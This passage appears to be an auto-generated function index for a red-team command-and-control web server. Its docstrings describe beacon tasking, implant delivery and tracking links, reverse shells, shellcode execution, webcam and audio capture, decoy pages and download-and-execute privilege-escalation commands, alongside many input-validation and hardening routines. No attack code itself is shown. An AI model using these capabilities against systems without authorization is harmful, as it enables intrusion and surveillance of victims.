    ``OSError.errno`` on failure and ``None`` on success. Returns
    ``(False, errno.EACCES)`` when the address is a wildcard and
    the operator has not opted in to all-interface binding.*
- `_resolve_bind_address` (line 358) `def _resolve_bind_address(preferred, port, sock_type)` - *Return an address that can actually be bound to on this host.

Probes each candidate with :func:`_probe_bind` and returns the first
address that succeeds. The resolver fails closed: the unspecified
address ``0.0.0.0`` is only ever offered when the operator has set
``allow_unspecified_bind`` in :class:`SecurityConfig`. When every
candidate fails the probe, the configured loopback fallback is
returned so the caller never accidentally binds to every interface.
The probe uses the same socket type the caller will use, so UDP
services such as DNS are tested with ``SOCK_DGRAM``.

Args:
    preferred: Explicit address to try first. When ``None`` the
        address chosen by :func:`_listen_address` is used.
    port: Port number for the probe. When ``0`` the kernel assigns
        an ephemeral port so the test never collides with the real
        service.
    sock_type: Socket type matching the eventual server.

Returns:
    A bindable IPv4 address literal. Guaranteed to be the loopback
    when no other candidate succeeds and the operator has not
    explicitly opted in to binding on every interface.*
- `ensure_sessions_dir` (line 453) `def ensure_sessions_dir()` - *Ensure the sessions directory exists with safe permissions.*
- `load_routes` (line 464) `def load_routes()` - *Load dynamic routes from JSON file.*
- `save_routes` (line 474) `def save_routes(routes)` - *Save dynamic routes to JSON file with safe permissions.*
- `validate_route_path` (line 488) `def validate_route_path(route_path)` - *Module-level boolean adapter for :func:`lazyc2.security.validators.validate_route_path`.

Returns ``True`` when ``route_path`` passes the canonical validator
and ``False`` otherwise. Existing call sites that only need a
boolean signal can keep their current shape; new call sites should
prefer the underlying ``(is_valid, error)`` tuple for richer
diagnostics.*
- `validate_template_name` (line 501) `def validate_template_name(template_name)` - *Module-level boolean adapter for :func:`lazyc2.security.validators.validate_template_name`.

Returns ``True`` when ``template_name`` passes the canonical
validator and ``False`` otherwise.*
- `is_safe_template_path` (line 511) `def is_safe_template_path(template_path, template_name)` - *Verify ``template_path`` resolves inside ``app.template_folder``.

Delegates to the canonical traversal validator in
:mod:`lazyc2.security.validators` so the confinement check stays
consistent with every other security-sensitive call site. Retained
on the module surface because operators wire it into custom
templates from external scripts.

Args:
    template_path: Candidate filesystem path produced by the caller.
    template_name: Expected template basename. The candidate must
        match this filename exactly, preventing the caller from
        substituting an unrelated path that happens to live inside
        the template folder.

Returns:
    True when the resolved path is strictly equal to
    ``app.template_folder / template_name`` and lives inside the
    template folder; False otherwise.*
- `_sanitize_command_output` (line 541) `def _sanitize_command_output(value)` - *Return a JSON-safe projection of ``value`` without exception details.

Delegates to the centralised :class:`OutputSanitizer` so the same
bounded-depth, exception-stripping projection is applied across
every C2 endpoint that returns shell output.*
- `is_binary` (line 551) `def is_binary(safe_filename)` - *Check whether a session file is binary based on its header bytes.

Accepts a single basename, never a path. Reconstructing the absolute
path inside this function prevents a malicious caller from supplying
traversal sequences to read host files outside ``SESSIONS_DIR``.

Args:
    safe_filename: Basename of a candidate file within ``SESSIONS_DIR``.

Returns:
    True only when the resolved file lives inside ``SESSIONS_DIR`` and
    its leading bytes match a known binary header. Any validation
    failure or I/O error returns False.*
- `clean_expired_tokens` (line 592) `def clean_expired_tokens()`
- `clean_json` (line 600) `def clean_json(text)` - *Extract only the JSON content between ```json and ```, discarding everything else.*
- `_resolve_within` (line 611) `def _resolve_within(allowed_base, name)` - *Resolve ``name`` strictly within ``allowed_base``.

Returns the absolute, real path only if it lives under ``allowed_base``.
Returns ``None`` for any traversal attempt or symlink escape. CodeQL
recognises this commonpath-based pattern as a path sanitiser.*
- `load_yaml_safely` (line 628) `def load_yaml_safely(file_path)` - *Load a YAML file safely with error handling and default values.*
- `get_karma_name` (line 737) `def get_karma_name(elo)`
- `fromjson` (line 754) `def fromjson(value)`
- `run_shell` (line 758) `def run_shell()`
- `load_banners` (line 768) `def load_banners()` - *Loads the banners from the JSON file.*
- `load_mitre_data` (line 788) `def load_mitre_data()`
- `load_event_config` (line 794) `def load_event_config()`
- `load_notifications` (line 802) `def load_notifications()`
- `implants_check` (line 820) `def implants_check()`
- `extract_attack_vectors` (line 837) `def extract_attack_vectors(nodes, edges)` - *Analyzes BloodHound nodes and edges to extract critical attack vectors for AD compromise.

Args:
    nodes (list): List of node dictionaries from process_bloodhound_zip.
    edges (list): List of edge dictionaries from process_bloodhound_zip.

Returns:
    dict: Structured data containing critical attack vectors.*
- `process_bloodhound_zip` (line 924) `def process_bloodhound_zip(zip_filepath)` - *Processes a BloodHound ZIP file to extract nodes and edges for graph visualization.

Args:
    zip_filepath (str): The path to the BloodHound ZIP file.

Returns:
    tuple: (nodes, edges, error_message, ad_data). Nodes, edges, attack vectors for viz.js, and error message.*
- `start_watching` (line 1022) `def start_watching()`
- `load_tasks` (line 1038) `def load_tasks()`
- `create_cves` (line 1046) `def create_cves()`
- `load_cves` (line 1052) `def load_cves()`
- `save_cves` (line 1060) `def save_cves(cves)`
- `create_report` (line 1065) `def create_report()`
- `save_tasks` (line 1071) `def save_tasks(tasks)`
- `load_note` (line 1076) `def load_note()`
- `aumentar_elo` (line 1094) `def aumentar_elo(user_id, cantidad)`
- `save_note` (line 1124) `def save_note(content)`
- `escape_js` (line 1130) `def escape_js(s)`
- `_sanitize_html` (line 1155) `def _sanitize_html(raw_html)` - *Sanitize HTML by stripping dangerous tags and event handlers.

The implementation delegates to
:func:`lazyc2.security.html_sanitizer.sanitize_html`, which is
backed by ``bleach`` and the constants in
:mod:`lazyc2.security.constants`. The legacy regex-based
implementation lived in this module but is no longer used.*
- `markdown_to_html` (line 1167) `def markdown_to_html(text)`
- `to_serializable` (line 1175) `def to_serializable(obj)` - *Convert objects to serializable format.*
- `make_serializable` (line 1182) `def make_serializable(data)` - *Recursively convert data to serializable format.*
- `_sanitize_csv_field` (line 1192) `def _sanitize_csv_field(value, maxlen)` - *Prevent CSV injection by prefixing formula-starting values.*
- `datetime_now_iso` (line 1200) `def datetime_now_iso()` - *Return the current UTC timestamp as an ISO-8601 string.*
- `_secure_command_queue_path` (line 1205) `def _secure_command_queue_path(client_id)` - *Return a sanitised, path-confined command queue file path for a beacon.

Sanitises the client_id, builds the queue path relative to ALLOWED_DIRECTORY,
and verifies via os.path.realpath that the resolved path does not escape the
allowed base directory.

Args:
    client_id: Raw beacon id from the request.

Returns:
    The validated absolute real path to the cmd_<safe_id>.json queue file.

Raises:
    ValueError: If the sanitised client_id is empty or the resolved path
        escapes the allowed directory.*
- `_beacon_records_path` (line 1235) `def _beacon_records_path(client_id)` - *Return the JSONL history file path for a sanitised beacon client id.*
- `_append_beacon_record` (line 1242) `def _append_beacon_record(record)` - *Append one beacon result record to the persistent JSONL history.

Keeps the full command/result timeline for a beacon so both the Flask
GUI and GUI2 can replay history instead of only the latest result.

Args:
    record: The normalised beacon record dict (already sanitised).

Returns:
    True when the append succeeded, False otherwise.*
- `_read_beacon_records` (line 1272) `def _read_beacon_records(client_id)` - *Read the ordered JSONL history for a sanitised beacon client id.

Args:
    client_id: The beacon id used to locate its history file.

Returns:
    A list of record dicts in chronological order (oldest first).*
- `escape_js_string` (line 1318) `def escape_js_string(value)` - *Escape special characters in a string for JavaScript.*
- `check_auth` (line 1330) `def check_auth(username, password)` - *Verify credentials. Checks RBACStore first, falls back to CLI creds.*
- `authenticate` (line 1345) `def authenticate()` - *Requests authentication.*
- `requires_auth_or_session` (line 1354) `def requires_auth_or_session(f)` - *Require Basic auth credentials or a valid Flask-Login session.

Used on endpoints that are driven both by the CLI (which sends HTTP
Basic credentials) and by the GUI dashboard deep the operator has
already authenticated through ``/login`` (session cookie). Either
channel satisfies the gate.*
- `requires_auth` (line 1375) `def requires_auth(f)`
- `csrf_protect` (line 1386) `def csrf_protect(view)` - *Decorator that enforces the per-session CSRF token.

The CSRF policy is the module-level :data:`_csrf_policy`. When the
payload key ``c2_csrf_enabled`` is ``False`` the decorator is a
no-op so existing operators can disable the gate without touching
the codebase.*
- `aicmd_deepseek` (line 1407) `def aicmd_deepseek(cmd)`
- `aicmd` (line 1521) `def aicmd(cmd)`
- `search_database` (line 1626) `def search_database(term, data_path)` - *Busca un término en un DataFrame, manejando listas, dicts y distintas estructuras.*
- `execute_command` (line 1681) `def execute_command(command)`
- `_log_dns_bind_failure` (line 1776) `def _log_dns_bind_failure(address, error_number)` - *Emit a single structured log line describing why DNS could not bind.

Categorising the ``errno`` lets the operator see at a glance whether
the problem is privileges, an inactive VPN interface or a port that
is already taken. The exception message itself is not logged because
it can include host-specific paths on some platforms.

Args:
    address: Address that the bind was attempted on.
    error_number: ``OSError.errno`` returned by the probe, or
        ``None`` when no errno could be obtained.*
- `start_dns_server` (line 1815) `def start_dns_server()` - *Start the C2 DNS server, gracefully degrading when binding is unsafe.

The DNS server is optional and runs in a daemon thread, so any
uncaught exception in this function would be surfaced by the
threading runtime onto stderr and pollute the operator's terminal.
All errors are therefore funnelled through the logger and the
function returns cleanly instead of letting the thread crash.

Binding is attempted only after a UDP probe confirms the chosen
address is available, which avoids the common ``EADDRNOTAVAIL``
failure seen when ``lhost`` points to an inactive VPN interface.
The server can be disabled entirely via the ``enable_c2_dns``
payload flag.*
- `tcp_bridge` (line 1855) `def tcp_bridge(local_port, remote_host, remote_port)` - *Establish a TCP bridge between a local port and a remote host.*
- `handle_client` (line 1879) `def handle_client(client_socket, remote_host, remote_port)` - *Handle communication between the client and the remote server.*
- `decoy` (line 1898) `def decoy()` - *Serve a decoy page to non-operator IPs when decoy mode is enabled.

Behaviour is driven by ``c2_decoy_mode`` in payload.json:

- ``"off"``: disabled; every request proceeds to normal handling.
- ``"page"`` (default): requests from IPs outside the operator allowlist
  receive a fake decoy page. This preserves the legacy honeypot look.
- ``"deny"``: requests from non-operator IPs receive HTTP 403 instead
  of a misleading page. Use this when the decoy is not wanted.

The operator allowlist is ``lhost``, ``127.0.0.1`` and the entries of
``c2_operator_ip_allowlist``.*
- `encrypt_data` (line 1936) `def encrypt_data(data)`
- `decrypt_data` (line 1945) `def decrypt_data(encrypted_data, is_file)`
- `set_winsize` (line 1958) `def set_winsize(fd, row, col, xpix, ypix)` - *Configura el tamaño de la terminal*
- `read_and_forward_pty_output` (line 1964) `def read_and_forward_pty_output()` - *Lectura continua del PTY y envío por WebSocket*
- `get_discovered_hosts` (line 1981) `def get_discovered_hosts()` - *Reads the sessions/hostsdiscovery.txt file and returns a list of discovered hosts.
Also reads IPs from scan_discovery*.csv files in the sessions directory.*
- `get_local_ip_addresses` (line 2031) `def get_local_ip_addresses()`
- `sanitize_json` (line 2056) `def sanitize_json(data)` - *Elimina datos sensibles del diccionario JSON.
Adaptar esta función según la estructura específica de tu payload.json.*
- `add_dynamic_data` (line 2086) `def add_dynamic_data(data)` - *Agrega datos dinámicos al diccionario JSON si es necesario,
basándose en el contenido del diccionario 'data'.

Also normalises boolean fields that Go implants expect as strings.*
- `get_client_ip` (line 2108) `def get_client_ip()` - *Get the client's IP address, handling proxies.*
- `get_request_details` (line 2117) `def get_request_details()` - *Collect comprehensive request details.*
- `save_to_log` (line 2152) `def save_to_log(data)` - *Append request data to the JSON log file with safe permissions.*
- `parse_access_log_for_short_url` (line 2174) `def parse_access_log_for_short_url(short_url)` - *Parse access.log for entries matching the given short URL.*
- `parse_execution_log` (line 2196) `def parse_execution_log(implante)` - *Parse execution log for the given implante, returning execution events.*
- `load_implant_config` (line 2222) `def load_implant_config(implante)` - *Load implant configuration from JSON file.*
- `load_short_urls` (line 2232) `def load_short_urls()` - *Load short URLs from JSON file, creating it if it doesn't exist.*
- `save_short_urls` (line 2252) `def save_short_urls(data)` - *Save short URLs to JSON file.*
- `is_valid_url` (line 2262) `def is_valid_url(url)` - *Validate if the input is a valid URL or existing local file path.*
- `analyze_behavioral_data` (line 2340) `def analyze_behavioral_data(behavioral_events)` - *Analyze behavioral events using Groq AI to generate risk scores.*
- `analyze_campaign_progress` (line 2368) `def analyze_campaign_progress(campaign_id, events)` - *Analyze campaign progress and suggest adaptations using Grok AI.*
- `_metrics_before_request` (line 2406) `def _metrics_before_request()`
- `_enforce_https_redirect` (line 2412) `def _enforce_https_redirect()` - *Force HTTP -> HTTPS in PROD when the policy says so.

Returns:
    A redirect response when the policy decides the request must be
    upgraded; otherwise ``None`` so Flask continues handling it.*
- `_enforce_password_rotation` (line 2432) `def _enforce_password_rotation()` - *Redirect users flagged with ``must_change_password`` to the
rotation form until they set a strong password.*
- `_add_security_headers` (line 2455) `def _add_security_headers(response)`
- `_load_or_create_secret_key` (line 2475) `def _load_or_create_secret_key()` - *Resolve the Flask secret key from the operator environment or disk.

The lookup order is:

1. The ``LAZYOWN_SECRET_KEY`` environment variable, which lets
   deployments inject a pre-provisioned key without touching disk.
2. A persisted hex-encoded key under ``sessions/.secret_key`` managed
   by :class:`lazyc2.security.services.SecretKeyManager`.

Returns:
    The hex-encoded secret key string ready to assign to
    ``app.secret_key``.*
- `_handle_404` (line 2522) `def _handle_404(_error)`
- `_handle_405` (line 2527) `def _handle_405(_error)`
- `_handle_exception` (line 2532) `def _handle_exception(error)` - *Generic error handler that never leaks stack traces or exception messages.

Even when ``config.enable_c2_debug`` is on, the response body stays
generic. Verbose details are still logged server-side for operators.*
- `_init_shell` (line 2556) `def _init_shell()` - *Create the shared CLI shell on first use (double-checked lock).

The import of ``lazyown`` stays inside this function so importing
this module never pulls the CLI tree. The boot sequence matches
the historic eager startup: StringIO stdout plus the ``p`` and
``create_session_json`` commands.

Returns:
    The shared LazyOwnShell instance.*
- `__getattr__` (line 2583) `def __getattr__(name)` - *Serve the lazily created ``shell`` attribute (PEP 562).

Only used when this file is imported as a module. When executed
as a script, in-module reads go through the ``shell`` proxy below.

Args:
    name: Requested module attribute name.

Returns:
    The shared shell for ``shell``.

Raises:
    AttributeError: For any other missing attribute.*
- `_persist_bootstrap_password` (line 2650) `def _persist_bootstrap_password(prefix, password)` - *Persist the one-time admin password to an owner-only file.

Writes the credential to ``sessions/<prefix>_initial_admin.txt`` with
restrictive permissions instead of echoing it to the console, which may
be captured by terminal scrollback or process logging.

Args:
    prefix: Logging/identifier prefix (``rbac`` or ``users``).
    password: The one-time admin password to persist.*
- `_bootstrap_initial_admin` (line 2670) `def _bootstrap_initial_admin()` - *Create the initial admin account only on a truly fresh install.

A cryptographically random one-time password is generated and printed
exactly once; the account is flagged with ``must_change_password`` so
the operator is forced to rotate it on first login.

If ``users.json`` exists but is empty or unreadable, the store is left
untouched: overwriting an existing operator database is never acceptable.*
- `_get_rbac_user_obj` (line 2959) `def _get_rbac_user_obj(flask_user)`
- `load_users` (line 2969) `def load_users()`
- `save_users` (line 2979) `def save_users(users)`
- `load_data` (line 2990) `def load_data()`
- `load_user` (line 3007) `def load_user(user_id)`
- `tojson_filter` (line 3022) `def tojson_filter(value)` - *Custom tojson filter to handle non-serializable objects.*
- `index` (line 3029) `def index()`
- `send_command` (line 3179) `def send_command(client_id)`
- `_try_copy_privesc_tool` (line 3272) `def _try_copy_privesc_tool(platform)` - *Copy linpeas/winpeas to sessions/ from known local paths.

Returns the destination filename when successful, None otherwise.*
- `_build_privesc_command` (line 3292) `def _build_privesc_command(platform)` - *Build the download+execute command for linpeas (Linux) or winpeas (Windows).

Tries to copy the tool locally first, then constructs a command that
downloads from the C2 server with a public GitHub fallback.*
- `receive_result` (line 3323) `def receive_result(client_id)`
- `issue_command` (line 3864) `def issue_command()`
- `upload` (line 3878) `def upload()`
- `download_file` (line 3915) `def download_file()`
- `serve_file` (line 3942) `def serve_file(file_path)` - *Serve a file from ``sessions/temp_uploads`` through :class:`SafeFileService`.

Args:
    file_path: Operator-supplied path component. The :class:`SafeFileService`
        is responsible for resolving it canonically and rejecting any
        attempt to escape the base directory (including Windows-style
        ``..\`` traversal and null-byte injection).

Returns:
    A Flask response with the AES-encrypted payload, or a 403/404
    error JSON when the path is unsafe or missing.*
- `_resolve_secure_template_path` (line 3977) `def _resolve_secure_template_path(template_name)` - *Return an absolute path strictly contained inside the template folder.

Operator-supplied template names are never trusted. The resolver
enforces three independent gates so a missed upstream check still
fails closed:

1. The shared :func:`validate_template_name` validator rejects
   traversal sequences, length abuse, and disallowed characters.
2. The basename is rebuilt from a local ``re.fullmatch`` group so
   the value joined into the filesystem ``Path`` is a literal
   derived from the regex match rather than the raw input.
3. The rebuilt basename must exist in the precomputed allowlist of
   template files actually present on disk, so any value that
   slipped past the regex still cannot reach :meth:`Path.is_file`.

Args:
    template_name: A template basename. Must match
        :data:`lazyc2.security.constants.TEMPLATE_NAME_PATTERN`.

Returns:
    The absolute filesystem path on success; ``None`` when the
    basename fails validation, escapes ``app.template_folder`` or
    does not exist.*
- `create_route` (line 4044) `def create_route()` - *Register a new operator-supplied dynamic route bound to a template.

All validation delegates to the canonical validators in
:mod:`lazyc2.security.validators` so the regex, length limits, and
traversal checks remain single-source-of-truth.

Returns:
    A Flask response. On GET the registration form is rendered. On
    POST the new route is persisted and the operator is redirected
    back to the form with a success or error message.*
- `dynamic_route` (line 4113) `def dynamic_route(route_path, data)` - *Handle dynamic routes based on stored route-to-template mappings.*
- `log` (line 4209) `def log(data)` - *Log request details to JSON file.*
- `favicon` (line 4227) `def favicon()` - *Serve the favicon.ico file.*
- `palette_view` (line 4240) `def palette_view()` - *Render the operator command palette browser.

Reads ``cli/command_index.json`` via :func:`cli.palette.load_index`, builds
a flat template context with :func:`cli.palette_command.build_palette_view`
and serves :file:`templates/palette.html`. The full payload is embedded in
the page so the client-side JavaScript can filter without round-trips.*
- `palette_api` (line 4267) `def palette_api()` - *JSON catalogue feed for the global Cmd+K / Ctrl+K overlay.

Same payload as :func:`palette_view` but without HTML chrome — every C2
template injects a small client-side overlay that fetches this endpoint
once on first open and renders results locally so navigation between
pages stays cheap. A missing command index returns 503 with a JSON error
so the overlay can fall back to a hint instead of breaking the page. The
handler is rate-limited via ``c2_palette_limit`` (default ``60 per minute``)
so a runaway browser tab cannot drown the operator session.*
- `api_data` (line 4288) `def api_data()`
- `_api_data_inner` (line 4311) `def _api_data_inner()`
- `create_short_url` (line 4450) `def create_short_url()` - *Create multiple short URLs for a single original URL.*
- `track_interaction` (line 4478) `def track_interaction(short_url)` - *Serve tracking page and log behavioral data.*
- `update_short_url` (line 4503) `def update_short_url(short_url)`
- `redirect_to_file` (line 4530) `def redirect_to_file(short_url)`
- `webserver_report` (line 4558) `def webserver_report(filename)` - *Serve nmap HTML report assets from the sessions directory over HTTPS.

All untrusted path components are resolved through
:class:`SessionPathResolver`, which encapsulates the allowlist
regex, depth limit and realpath containment checks so CodeQL
data-flow analysis can prove the path stays under the sessions
directory in a single, audited code path.*
- `download_files` (line 4578) `def download_files(filename)` - *Serve implant stage files by name, enforcing strict containment.

Only files explicitly registered in the operator-controlled short URL
registry (implant delivery) or the fixed implant stage names are
served. Captured credentials, hashes, loot and other session files are
never exposed through this unauthenticated route.*
- `view_yaml` (line 4630) `def view_yaml()`
- `run_command` (line 4737) `def run_command()` - *Execute one shell command and return a sanitised, JSON-safe result.

The handler is wrapped in a defence-in-depth boundary: every code
path that could surface exception state to the HTTP client is
funnelled through :func:`_sanitize_command_output`, and any
exception escaping the shell invocation is converted into a generic
error so internal class names, stack traces and file paths never
reach the caller.

In addition the command must clear :class:`CommandAllowlist`; the
first whitespace-delimited token must be on the configured list and
no shell metacharacter is permitted anywhere in the payload. The
decision (allowed or denied) is appended to the audit log.*
- `get_output` (line 4806) `def get_output()`
- `run_shellcode` (line 4833) `def run_shellcode()`
- `get_results` (line 4842) `def get_results()`
- `_resolve_reverse_shell_password` (line 4849) `def _resolve_reverse_shell_password()` - *Return the password used to authenticate to the /lazyos reverse shell.

When ``c2_reverse_shell_password`` is configured and meets the minimum
length (12 chars), that value is used. Otherwise a cryptographically
random 32-byte hex token is generated once per process lifetime,
persisted owner-only under ``sessions/.reverse_shell_password`` for
the authenticated operator, and never written to logs.

Returns:
    The active reverse-shell authentication password.*
- `send_lcommand` (line 4905) `def send_lcommand(ip, port)`
- `chatbot` (line 4938) `def chatbot()`
- `vuln` (line 4954) `def vuln()`
- `taskbot` (line 4993) `def taskbot()`
- `search` (line 5009) `def search()`
- `script` (line 5025) `def script()`
- `redop` (line 5041) `def redop()`
- `adversary` (line 5060) `def adversary()`
- `generalbot` (line 5076) `def generalbot()`
- `csv_to_html` (line 5092) `def csv_to_html()`
- `search_results` (line 5143) `def search_results()`
- `graph` (line 5191) `def graph()`
- `task` (line 5200) `def task(task_id)`
- `get_tasks` (line 5215) `def get_tasks()`
- `tasks` (line 5225) `def tasks()`
- `edit_task` (line 5235) `def edit_task(task_id)`
- `cves` (line 5269) `def cves()`
- `cve` (line 5295) `def cve(cve_id)`
- `edit_cve` (line 5310) `def edit_cve(cve_id)`
- `edit_notes` (line 5344) `def edit_notes()`
- `get_notes` (line 5362) `def get_notes()`
- `view_note` (line 5372) `def view_note()`
- `push_notification` (line 5382) `def push_notification()`
- `edit_event` (line 5409) `def edit_event(event_name)`
- `get_event_config` (line 5444) `def get_event_config()`
- `get_event_config_view` (line 5451) `def get_event_config_view()`
- `aicmd_view` (line 5486) `def aicmd_view()`
- `get_events` (line 5511) `def get_events()`
- `list_tools` (line 5543) `def list_tools()`
- `create_tool` (line 5553) `def create_tool()`
- `view_tool` (line 5580) `def view_tool(toolname)`
- `update_tool` (line 5611) `def update_tool(toolname)`
- `delete_tool` (line 5659) `def delete_tool(toolname)`
- `register` (line 5694) `def register()`
- `login` (line 5753) `def login()`
- `mfa_setup` (line 5800) `def mfa_setup()`
- `mfa_qr` (line 5874) `def mfa_qr(username)` - *Serve a locally-generated QR code SVG for MFA setup.

Zero external API calls. The QR code is generated server-side using
pure Python (no external dependencies beyond pyotp). Works offline.*
- `mfa_verify` (line 5896) `def mfa_verify()`
- `admin_users` (line 5944) `def admin_users()`
- `admin_set_role` (line 5959) `def admin_set_role(user_id)`
- `admin_reset_mfa` (line 5981) `def admin_reset_mfa(user_id)`
- `admin_delete_user` (line 5993) `def admin_delete_user(user_id)`
- `admin_tenants` (line 6011) `def admin_tenants()`
- `admin_create_tenant` (line 6032) `def admin_create_tenant()`
- `admin_switch_tenant` (line 6051) `def admin_switch_tenant(tenant_id)`
- `profile` (line 6065) `def profile()`
- `logout` (line 6089) `def logout()`
- `change_password` (line 6104) `def change_password()` - *Force rotation of the initial one-time admin password.

Both the RBAC store and the legacy JSON store are updated. The
``must_change_password`` flag is cleared once a strong password
is set.*
- `aumentar_elo_route` (line 6170) `def aumentar_elo_route(user_id)`
- `banners` (line 6186) `def banners()`
- `mitre` (line 6222) `def mitre()`
- `get_connected_clients` (line 6267) `def get_connected_clients()`
- `lazybot` (line 6278) `def lazybot()`
- `compliance_dashboard` (line 6295) `def compliance_dashboard()`
- `compliance_report` (line 6317) `def compliance_report()`
- `compliance_add_evidence` (line 6346) `def compliance_add_evidence()`
- `compliance_verify_evidence` (line 6382) `def compliance_verify_evidence()`
- `compliance_export` (line 6396) `def compliance_export(format)`
- `lazyreport` (line 6426) `def lazyreport()`
- `teamserver` (line 6445) `def teamserver()`
- `report` (line 6474) `def report()`
- `lazyreport_view` (line 6481) `def lazyreport_view()`
- `killchain_view` (line 6487) `def killchain_view()`
- `api_killchain` (line 6517) `def api_killchain()` - *Return the unified kill-chain snapshot consumed by every surface.

Delegates entirely to ``modules.killchain.KillChain.snapshot`` so the
web dashboard, /killchain page, GUI2 and the CLI all render identical
state derived from the single source of truth (world_model.json).*
- `api_beacon_results` (line 6548) `def api_beacon_results(client_id)` - *Return the full ordered command/result history for one beacon.

Falls back to the in-memory latest result when the on-disk JSONL
history is missing so GUI2 always has something to render.*
- `_render_enhanced_report` (line 6563) `def _render_enhanced_report()`
- `_render_legacy_report` (line 6583) `def _render_legacy_report()`
- `connect` (line 6648) `def connect()`
- `listener` (line 6657) `def listener()`
- `listener_connect` (line 6666) `def listener_connect()`
- `listener_disconnect` (line 6677) `def listener_disconnect()`
- `pty_input` (line 6687) `def pty_input(data)`
- `resize` (line 6701) `def resize(data)`
- `pty_connect` (line 6714) `def pty_connect()`
- `handle_input` (line 6745) `def handle_input(data)`
- `listener_command` (line 6769) `def listener_command(msg)`
- `terminal` (line 6783) `def terminal()`
- `terminal_connect` (line 6792) `def terminal_connect()`
- `terminal_disconnect` (line 6802) `def terminal_disconnect()`
- `terminal_input` (line 6812) `def terminal_input(data)`
- `terminal_command` (line 6825) `def terminal_command(data)`
- `terminal_resize` (line 6840) `def terminal_resize(data)`
- `start_reverse_shell` (line 6849) `def start_reverse_shell()`
- `start_bridge` (line 6896) `def start_bridge()` - *Start a TCP bridge to a specified remote host and port.*
- `page_not_found` (line 6913) `def page_not_found(e)`
- `internal_server_error` (line 6921) `def internal_server_error(e)`
- `get_config` (line 6930) `def get_config()` - *Lee el archivo payload.json, lo manipula y lo expone como /config.json.*
- `capture_image` (line 6949) `def capture_image()`
- `capture_audio` (line 6975) `def capture_audio()`
- `surface` (line 6993) `def surface()`
- `surface_live` (line 6999) `def surface_live()` - *Render the live attack-surface graph page.

Returns:
    The decoy response for unauthorized origins, otherwise the
    ``surface_live.html`` template that polls ``/api/surface_live``.*
- `api_surface_live` (line 7014) `def api_surface_live()` - *Return the live attack-surface graph derived from the world model.

Reads ``sessions/world_model.json`` on every request so the topology
reflects current campaign state, then projects it to a vis-network payload
via :func:`modules.live_surface.build_live_graph`.

Returns:
    A JSON object with ``nodes``, ``edges`` and ``stats`` keys. A missing
    or unreadable world model yields an empty but well-formed graph.*
- `intel_view` (line 7039) `def intel_view()` - *Render the fused sessions intel graph page (ReadMenator engine).

Data loads via ``/api/intel_graph`` inside LazyOwn chrome. Defaults to
the 2D map with fit-to-view; 3D orbit, clusters, layers, tree and the
circular/spherical bundles stay one click away.

Returns:
    The decoy response for unauthorized origins, otherwise the
    ``intel.html`` explorer embedded in the LazyOwn layout.*
- `intel_bundle_view` (line 7058) `def intel_bundle_view()` - *Render the circular/spherical bundle view of the intel graph.

Returns:
    The decoy response for unauthorized origins, otherwise the
    ``intel_bundle.html`` explorer embedded in the LazyOwn layout.*
- `attack3d_view` (line 7073) `def attack3d_view()` - *Render the C2-centred attack-surface graph (ReadMenator engine).

Shows the LazyOwn C2 root, implants, discovered machines, open ports,
services, findings and objectives fused from every session artefact.
The current ``/graph`` and ``/surface`` views stay untouched.

Returns:
    The decoy response for unauthorized origins, otherwise the
    ``attack3d.html`` explorer embedded in the LazyOwn layout.*
- `attack_bundle_view` (line 7092) `def attack_bundle_view()` - *Render the circular/spherical bundle view of the attack surface.

Returns:
    The decoy response for unauthorized origins, otherwise the
    ``attack_bundle.html`` explorer embedded in the LazyOwn layout.*
- `api_intel_graph` (line 7107) `def api_intel_graph()` - *Return the fused C2-centred intel graph with precomputed layout.

Query param ``layout`` selects ``force`` (default, physics runs
client-side, no preset positions so every graph fits on screen),
``cluster``, ``radial``, ``dag`` (same, client-side), ``circular`` or
``spherical`` (server-side positions). Legacy ``force2d``/``force3d``
still map to ``force``. Every request also refreshes
``sessions/intel_summary.json`` so the autonomous loop planner scores
probes from current campaign state.

Returns:
    A JSON object with ``nodes``, ``edges``, ``stats``, ``settings``
    and ``analytics`` keys.*
- `broadcast_view` (line 7163) `def broadcast_view()` - *Render the exploration timeline board for one loop task.

Returns:
    The ``broadcast.html`` timeline embedded in the LazyOwn layout.*
- `api_loop_broadcast_stream` (line 7177) `def api_loop_broadcast_stream()` - *SSE live tail of one loop task's activity stream.

Query params ``task`` (required), ``cursor`` (resume line index),
``interval`` (poll seconds, 0.2..5) and ``seconds`` (stream
lifetime, max 1800). Every event carries ``id: <cursor>`` so an
operator reconnects without gaps after a page reload.

Returns:
    ``text/event-stream`` response with keep-alive comments.*
- `api_loop_broadcast` (line 7235) `def api_loop_broadcast()` - *Return the paginated exploration timeline for one loop task.

Query params ``task`` (required), ``kind`` (repeatable),
``q``, ``order`` (asc/desc), ``page``, ``per_page``. Rows carry
upstream/downstream neighbours and anchored assets inline so the
board expands without extra requests.

Returns:
    A JSON object with ``items``, ``total``, ``page``,
    ``per_page``, ``has_more`` and ``days`` keys.*
- `api_guard_audit` (line 7278) `def api_guard_audit()` - *Return guard history with pending approvals kept independent.

Query params ``task``, ``action``, ``source``, ``q``, ``limit``,
``lookup`` (a ``tool_use_id`` jumping to the exact execution).
Pending intercept requests always ride along unpaginated so paging
through history never hides work waiting for approval.

Returns:
    A JSON object with ``pending``, ``history`` and optional
    ``lookup`` keys.*
- `api_loop_graph` (line 7324) `def api_loop_graph()` - *Return one loop task as ForceGraph-ready nodes/links plus context.

Query param ``task`` (required). Nodes carry exploration kind/state
and asset kind/value; links keep exploration kinds plus ``anchors``
edges into assets. ``context`` holds hubs, islands and suggested
next probes computed from the same topology the planner ranks on.

Returns:
    A JSON object with ``nodes``, ``links`` and ``context`` keys.*
- `api_lazy_mentions` (line 7355) `def api_lazy_mentions()` - *Search @ mention candidates with scroll pagination.

Query params ``kind``, ``q`` and ``cursor`` (opaque page position
from the previous page). Returns ``items`` plus ``next_cursor``.

Returns:
    A JSON object with ``items`` and ``next_cursor`` keys.*
- `api_intel_bundle` (line 7391) `def api_intel_bundle()` - *Return the circular/spherical bundle payload of the intel graph.

Returns:
    A JSON object with ``bundle`` (nodes, groups, edges) and
    ``settings`` keys consumed by ``intel_bundle.html``.*
- `api_attack_graph` (line 7424) `def api_attack_graph()` - *Return the fused C2-centred attack-surface graph.

Merges live surface scans (C2, implants, hosts, ports, services) with
campaign intel (objectives, findings, tasks, log mentions). Query param
``layout`` accepts ``force`` (default, client-side physics),
``cluster``, ``radial``, ``dag``, ``circular`` and ``spherical``.
Every request refreshes ``sessions/intel_summary.json`` so the
autonomous loop scores probes from current campaign state.

Returns:
    A JSON object with ``nodes``, ``edges``, ``stats``, ``settings``
    and ``analytics`` keys.*
